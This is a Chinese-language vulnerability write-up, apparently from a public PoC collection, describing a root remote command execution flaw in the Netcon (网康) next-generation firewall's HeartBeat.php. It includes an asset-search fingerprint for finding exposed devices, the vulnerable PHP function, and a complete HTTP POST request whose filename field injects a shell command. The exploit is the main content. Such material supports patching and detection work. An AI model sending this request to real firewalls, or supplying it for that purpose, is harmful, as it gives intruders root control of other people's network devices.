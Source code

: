 # 网康 下一代防火墙 HeartBeat.php 远程命令执行漏洞

## 漏洞描述

网康 下一代防火墙 HeartBeat.php文件存在远程命令执行漏洞，攻击者通过构造请求包即可获取服务器Root权限

## 漏洞影响

<a-checkbox checked> 奇安信 网康下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked> app="网康科技-下一代防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649263762930-86ac1706-31bd-42c5-9b5f-822e695eac7b.png)

出现漏洞的文件 **applications/Models/NS/Rpc/HeartBeat.php**

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649263844774-f32c96ef-f93e-463a-aeee-bb5f7a567718.png)

```php
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

调用方法 delTestFile，fileName参数可控，调用的 exec_cmd 文件为Root权限文件，构造请求包进行命令执行

```php
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649264137977-dad6f7f8-adce-4189-856b-c564d8ba8a75.png)

访问写入的文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1649264181844-e562d3ea-a6cd-469c-9c8b-3998deed5bc3.png)